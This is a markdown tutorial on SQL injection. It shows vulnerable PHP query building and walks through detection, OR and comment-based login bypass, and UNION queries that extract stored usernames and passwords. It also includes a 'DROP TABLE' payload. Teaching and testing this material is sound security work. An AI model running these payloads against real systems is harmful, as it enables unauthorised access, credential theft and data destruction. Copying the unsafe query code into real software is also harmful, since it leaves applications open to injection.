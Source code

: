 # SQL injections

Most modern application use database in their backend to store data. In these applications, the users input some data and in the end this data is used to build SQL queries that are executed in the database.

If the queries are not properly protected, the user might abuse of them to perform any kind of database operation. This is called `SQL Injection`. The term `SQL` refers to relational databases.

Typically the database queries are executed this way:

```php
# A connection is establish using username/password and a database.
$conn = new mysqli("localhost", "root", "password", "users");
# A query is defined
$query = "select * from logins";
# The query is executed and the result is retrieved
$result = $conn->query($query);
while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
}
```

Usually user input is introduced in the SQL queries, e.g:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

If this is not properly secured, a user can craft a malicious payload that allow the attacker to execute anything in the database. In this example, when the user inputs `admin` the query becomes:

```sql
select * from logins where username like '%admin';
```

The problem comes with a payload like: `1'; DROP TABLE users;`. In this case, the SQL query will be:

```sql
select * from logins where username like '%1'; DROP TABLE users;'
```

And the user is able to delete the `users` table.

## Types of SQL injections

- In-band: The output of the query is printed directly in the frontend and we can read it.

We can have `Union` based SQL injections which we can pass the column to read and `Error` based where we leverage PHP or SQL errors to reveal the output of the query.

- Blind: In this case, we cannot see the output of the query.

We can use `Boolean` logic in SQL or `Time` based queries, where the query is intentionally delayed using `sleep` under certain conditions.

- Out-of-band: Sometimes, we don't have any access to the query output. In this case, we can forward the query results to an external system, e.g. DNS server.

## Enumerating for SQL injections

First of all, we need to know if the input is vulnerable to SQLi. A good way to check this is to inject characters closely related to SQL in our input:

```
'	-> %27
"	-> %22
#	-> %23
;	-> %3B
)	-> %29
```

Sometimes, we might need to use the url-encoded value of the character.

When we add this characters, we need to be observant to watch for any error or any other change in the application.

## Subverting query logic

Let's image this SQL query:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

If we introduce a `'` char:

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

We will see a Syntax error in the frontend and now we know this form is vulnerable to SQL injection.

### OR injection

This simple query can be manipulated with the following payload:

`admin' or '1'='1` which will result in the following query:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

The logic of the query is changed, now it selects the username `admin` or the password `something` AND `true`, which will return False because we don't know the actual password.

`username='admin'` will evaluate to true when there's a username named `admin`.
`1'='1' AND password = 'something'` the first part will evaluate to true always, the second part only when the password is the correct one; since we don't know it, it will evalute to false. True AND False will evaluate to False.

The `OR` operator will evaluate to true when one of the two components is true, so we'll completely bypass the authentication mechanism.

If we don't know the username, we can abuse in the same way of the password field:

```sql
SELECT * FROM logins WHERE username='notAdmin' or '1'='1' AND password = 'something' or '1'='1';
```

### Using comments

Just like any other language, SQL allows the use of comments as well. We can use `#` or `--` to include comments.

```sql
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

If you introduce comments into the username, it will disable the part of the query that checks the password:

Setting username to `admin'-- ` will create the following query:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

And we'll have an auth bypass. Sometimes SQL queries use parenthesis which might need to be taken into account when generating the payload, for example:

```sql
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password == "e7df7cd2ca07f4f1ab415d457a6e1c13"
```

If we input username as `admin')--` we will disable the password part and close the parenthesis correctly:

```sql
SELECT * FROM logins WHERE (username='admin')-- AND id > 1) AND password == "e7df7cd2ca07f4f1ab415d457a6e1c13"
```

and we'll have another auth bypass.

### Union

The `union` statement can be use to combine the fields coming from two separate selects. For example:

```sql
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

and

```
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

We can use `union` to combine both selects:

```sql
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

The number of columns and data types of the combine data tables should be the same. For example:

```sql
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

When the number of columns doesn't fit, you can just use a number to fill the missing columns.

We can use `UNION` as another source of injections. For example in the query:

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

We can enter the following payload:

`1' UNION SELECT username, password from passwords-- `

which will end up in the following query:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
and will reveal usernames and passwords.

If the number of columns are not the same, use the previous trick to make the query work:

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

```sql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

As seen in this example, we might need to know exactly the numbers of columns of a table. In order to do so, we can use `ORDER BY` statement:

`' order by 1-- -`, we can keep up incrementing the number until the query fails to execute, then we found the number of columns.

We can use `UNION` itself to detect the number of columns, e.g:

`cn' UNION select 1,2,3-- -`. We add numbers until it works.

We also need to know which columns are printed into the application. We can inject junk data and see how it gets printed in the frontend, for example:

`cn' UNION select 1,@@version,3,4-- -`.

This way, we have found where we need to put our injection.